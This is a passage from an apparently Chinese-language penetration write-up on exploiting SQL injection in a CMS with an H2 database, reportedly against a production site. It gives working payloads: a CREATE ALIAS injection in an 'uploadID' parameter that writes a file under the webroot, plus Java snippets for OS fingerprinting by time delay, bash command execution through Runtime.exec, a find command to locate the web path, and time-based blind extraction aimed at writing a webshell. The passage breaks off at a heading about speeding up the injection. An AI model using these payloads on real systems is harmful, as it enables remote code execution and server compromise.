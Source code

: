 ![](https://gitee.com/fuli009/images/raw/master/public/20230311202725.png)

  

接下来为了演示方便，我只贴出具体的漏洞利用的java代码，大家实战使用的时候，直接在java代码前后拼接上H2数据库查询语句即可。

  

  * ###  **一键写webshell方法**

由于不知道绝对路径，写shell成了一个麻烦事，因为通过注入写shell，必须提前知道网站的绝对路径，然而依靠延时漏洞去一个字符一个字符地猜解绝对路径是非常非常耗费时间和精力的。Magic_Zero给我发了一个代码，我在虚拟机下测试成功，但是在这个生产环境中执行失败，具体命令如下所示：

 **uploadID=1';CREATE+ALIAS+fun669+AS+$$+void+f(String+cmd)+throws
java.io.IOException+{(new+java.io.FileOutputStream(System.getProperty("user.dir")%2B"/webapps/ROOT/images/hello.txt")).write("helloworld".getBytes())%3B}$$;CALL+fun669('1');or
'**

  

  * ###  **为获取web路径做准备**

接下来只能通过延时判断方法一个字符一个字符地把web绝对路径猜解出来了。在这里我们首先判断一下操作系统，具体java代码如下，如果网站返回出现延迟，说明操作系统是Linux的。

 **{
if(!System.getProperty("os.name").contains("win")){java.lang.Thread.sleep(10000);}**

  

  * ###  **Linux执行命令语句改造**

  
接下来还需要构造好执行系统命令的java代码，一开始用如下代码去执行命令，发现很多命令执行不成功，百思不得其解： **{
java.lang.Runtime.getRuntime().exec(cmd)%3B+}**  

后来发现，需要改造一下java代码，变成如下形式即可：

 **{  java.lang.Runtime.getRuntime().exec(new String[]{"bash", "-c", "cmd"}**

  

  * ###  **延时盲注猜解绝对路径**

  

通过翻看源代码，发现该CMS存在一个图片login_btn_bg.png，于是通过执行find查找命令，将包含login_btn_bg.png的路径输出到/tmp/testpath.txt中。

 **java.lang.Runtime.getRuntime().exec(new String[]{"bash", "-c", "find /
-name login_btn_bg.png > /tmp/login_btn.txt"});**

上述java代码也保证了最终在testpath.txt中只有一行数据，如果是多行的话，那获取网站绝对路径需要猜解太多字符，工作量太大了。

接下来要想办法读/tmp/testpath.txt文件中网站的绝对路径，首先判断一下 **/tmp/testpath.txt**
中文本的长度，用折半法把绝对路径猜出来。以下两个语句说明，/tmp/testpath.txt文本中记录的绝对路径的长度，大约在50左右：

 **if(new java.io.File("/tmp/login_btn.txt").length() > 49)
{java.lang.Thread.sleep(10000);} ** **延迟**

 **if(new java.io.File("/tmp/login_btn.txt").length() > 51)
{java.lang.Thread.sleep(10000);} ** **不延迟**

 **  
**

  *  **动脑筋想办法加速延时注入**
